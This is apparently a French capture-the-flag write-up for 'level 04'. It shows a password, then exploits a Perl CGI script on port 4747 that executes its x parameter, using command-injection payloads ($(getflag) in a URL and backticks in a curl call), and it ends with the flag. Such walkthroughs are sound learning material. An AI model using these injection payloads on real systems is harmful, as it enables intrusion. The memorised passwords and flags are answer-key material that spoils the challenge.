 # level 04

### ![#409EFF](https://via.placeholder.com/15/409EFF/000000?text=+) `‎‎‎‎‎‎‎‏‏‎ Password`
```
qi0maab88jeaj46qoumi7maus
```

### ![#E6A23C](https://via.placeholder.com/15/E6A23C/000000?text=+) `‎‎‎‎‎‎‎‏‏‎ ‎‏‏‎Exploit`

On voit un fichier perl, en faisant un cat on peut voir qu’un serveur est présent sur le port 4747.

Le fichier attend en paramètre x, et l'exécute.

Il suffit de se connecter sur la page, et de lui envoyer en paramètre getflag pour qu’il l'exécute.

[http://192.168.1.22:4747/level04.pl?x=$(getflag)](http://192.168.1.22:4747/level04.pl?x=$(getflag))

Ou directement via curl
```sh
curl 'localhost:4747/level04.pl?x=`getflag`'
```

```cmd
su level05
```

### ![#67C23A](https://via.placeholder.com/15/67C23A/000000?text=+) `‎‎‎‎‎‎‎‏‏‎ Flag`
```
ne2searoevaevoem4ov4ar8ap
```